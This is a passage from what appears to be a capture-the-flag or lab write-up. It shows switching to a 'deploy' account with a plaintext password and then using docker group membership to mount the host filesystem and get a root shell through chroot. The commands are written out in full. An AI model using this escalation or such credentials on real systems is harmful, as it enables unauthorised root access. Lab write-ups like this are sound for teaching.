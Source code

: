 Now we have the deploy credentials.

We change accounts using your.

~~~ bash
su deploy #password -> Deploying@pp!
~~~

We get a bash

~~~ bash
bash
~~~

![alt text](/assets/img/Pasted%20image%2020240322145901.png)


## Privilege Escalation

We verify the groups to which the user deploy "id" belongs

~~~ bash
id
~~~

![alt text](/assets/img/Pasted%20image%2020240322152549.png)

We can see that it has docker and the user has sufficient permissions to run it, we verify the images that are in docker.

~~~ bash
docker images
~~~

![alt text](/assets/img/Pasted%20image%2020240322152634.png)

We use it to escape the restricted environment by having it run a shell as root.

~~~ bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
~~~
